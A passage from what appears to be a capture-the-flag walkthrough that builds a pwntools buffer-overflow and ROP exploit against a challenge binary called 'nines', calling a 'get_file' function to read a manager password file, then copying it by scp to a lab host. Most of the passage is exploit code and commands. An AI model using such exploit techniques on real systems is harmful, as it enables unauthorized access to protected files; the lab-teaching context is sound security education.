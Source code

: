 Notice that we removed all the `b` characters from our buffer. The payload's purpose is -- at the RIP registry at the end of our buffer -- to jump to the address of where our password file is. 

Then, we need to send this payload to the `nines` binary. Our end goal is to start the program, read until it prompts for a bet, send a 1, read until it prompts for a "slap" or "sit", send another 1, read until prompted to play *again*, deliver our payload. 

6. Add these lines to the python script: 

```python
proc = process(bin, stdin=pty, stdout=pty)
print(proc.sendlineafter(b"Bet: ", b"1")) 
print(proc.sendlineafter(b"?: ", b"1"))
print(proc.sendlineafter(b"again: ", payload))
```
We can just use the interactive feature to read the contents:

```python
proc.interactive()
```

If our local environment was set up correctly, we can see that the exploit reads the test password file! 

7. Now, **scp** the exploit to the `janitor` directory on `space-station-gtwpi`. 

```bash
scp exploit_nines.py janitor@space-station-gtwpi:~/
```

8. **ssh** into the `space-station-gtwpi` again with the provided credentials:

```bash
ssh janitor@space-station-gtwpi
```

9. Update the following line in our exploit code from

```python
directory_path = "/home/user/Desktop/"
```

to 

```python
directory_path = "/home/.casino/"
```

10. Beneath `directory_path` add the following line

```python
os.chdir(directory_path)
```

Here is the complete exploit: 

```python
from pwn import *
import os

directory_path = "/home/.casino/"
os.chdir(directory_path)

context.clear(arch='amd64')
bin = 'nines'
elf = ELF(bin)
pty = process.PTY
str_addr = next(elf.search(b"/home/gyre/managerpass.txt"))
rop = ROP(bin)
rop.call("get_file", [str_addr])
buffer = b"aaaabaaacaaadaaaeaaafaaaga"
rip = rop.chain()
payload = buffer + rip
proc = process(bin, stdin=pty, stdout=pty)
```